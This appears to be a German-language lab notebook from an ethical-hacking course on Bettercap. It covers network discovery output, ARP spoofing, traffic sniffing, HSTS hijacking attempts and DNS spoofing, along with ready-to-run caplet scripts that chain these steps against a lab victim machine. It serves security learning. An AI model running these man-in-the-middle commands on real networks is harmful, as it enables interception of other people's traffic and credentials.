






[](https://www.bettercap.org/)





Befehlsübersicht

```
>> help
...

```

auch Module werden angezeigt, Hilfe für Module:

```
>> help net.probe
>> help net.recon
```


```
192.168.178.0/24 > 192.168.178.81  » net.probe on
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [sys.log] [inf] net.probe probing 256 addresses on 192.168.178.0/24
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.27 detected as 28:f0:76:0c:00:d2 (Apple, Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.21 detected as 00:11:32:65:91:7f (Synology Incorporated).
192.168.178.0/24 > 192.168.178.81  » [09:38:09] [endpoint.new] endpoint 192.168.178.65 detected as 1c:91:80:bd:8d:9d (Apple, Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.23 detected as ac:89:95:f5:aa:91 (AzureWave Technology Inc.).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.22 detected as 50:1e:2d:04:dd:86 (StreamUnlimited Engineering GmbH).
192.168.178.0/24 > 192.168.178.81  » [09:38:10] [endpoint.new] endpoint 192.168.178.40 detected as 62:ff:4d:df:c2:a5.
192.168.178.0/24 > 192.168.178.81  » [09:38:12] [endpoint.new] endpoint 192.168.178.61 detected as b2:f6:30:1a:f7:1b.
192.168.178.0/24 > 192.168.178.81  » [09:38:18] [endpoint.new] endpoint 192.168.178.62 detected as 8a:42:87:22:f5:8a.
192.168.178.0/24 > 192.168.178.81  » [09:38:19] [endpoint.new] endpoint 192.168.178.59 detected as 9a:e0:c6:7b:af:cc.
192.168.178.0/24 > 192.168.178.81  »  

```

Startet auch `net.recon`

```
» net.show
... zeigt eine Tabelle aller gefundenen Hosts

```




## ARP Spoofing mit Bettercap

```
» help arp.spoof
```



ARP spoofing protection im Router des Netzwerklabors?!

Setzen eines Parameters:

```
» set arp.spoof.fullduplex true
» set arp.spoof.targets 10.0.2.7
```

`10.0.2.7` : IP Adresse von Victim

```
» arp.spoof on
```


## Capture Data

`net.sniff` Module

```
» help net.sniff
» net.sniff on
```

Funktioniert nicht bei https

Testen z.B. mit [http://vulnweb.com/](http://vulnweb.com/):

- [http://testhtml5.vulnweb.com/](http://testhtml5.vulnweb.com/), Login Button rechts oben
- 


## Custom Spoofing Script

caplet: text file das alle auszuführenden Kommandos enthält

`spoof.cap`:

```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7
arp.spoof on
net.sniff on
```

```sh
$ bettercap -iface eth0 -caplet spoof.cap
```

Falls sich am Netzwerk viel tut: `net.sniff` filter [[*](https://www.bettercap.org/modules/ethernet/net.sniff/)], [[Berkeley Packet Filter (BPF)](https://biot.com/capstats/bpf.html)]

```
set net.sniff.filter host 224.0.0.251 and port 5353
```

In der Doku sind quotes um den Filter Ausdruck  `"host ..."` – mit diesen funktionierts aber nicht. 


## HTTPS

`hstshijack-v2.0` caplets mit Änderungen von Zaid. Original ist im Lieferumfang von Bettercap (Folder in `/usr/share/bettercap/caplets`). [Github page von HSTShijack](https://github.com/bettercap/caplets/tree/master/hstshijack)

`spoof.cap`:

Zeile `set net.sniff.local true` ergänzen:

```
# betterCAP caplet file
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7
arp.spoof on
set net.sniff.local true
net.sniff on
```


```sh
$ bettercap -iface eth0 -caplet spoof.cap
```

 Alle caplets von bettercap anzeigen:

```
» caplets.show
```




```
» hstshijack/hstshijack
```

TAB auto-completion!


Chrome Delete Browser Cache:

Ctrl-Shift-Del >> (All time) >> "Clear data"

Versuch mit linkedin.com (und weiteren Seiten) hat nicht funktioniert (17.08.2021). Die geänderte Version von Zaid wurde nicht getestet, dabei wird NAT verwendet (Bridged bei diesem Test!)

Allgemein: das `hstshijack` caplet funktioniert nicht mit HSTS Websites. Werden als https geladen.


# DNS Spoofing

Umleiten auf eine eigene Web-Site

mit `dns.spoof` Module:

```
» help dns.spoof
» set dns.spoof.all true
» set dns.spoof.domains zsecurity.org,*.zsecurity.org
» dns.spoof on
```


# Tests mit NAT

```
# Kali 192.168.126.2
# Win  192.168.126.3
```


```
# test.cap
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.126.3
arp.spoof on
net.sniff on
# DNS Spoofing
set dns.spoof.all true
set dns.spoof.domains zsecurity.org,*.zsecurity.org
dns.spoof on
```


```
$ service apache2 start
$ bettercap -iface eth0 -caplet test.cap
```

Funktioniert wenn beide VMs auf NAT eingestellt sind!

Etwas Wartezeit nach dem Starten des DNS Spoofers und evtl. den Browser neu starten.


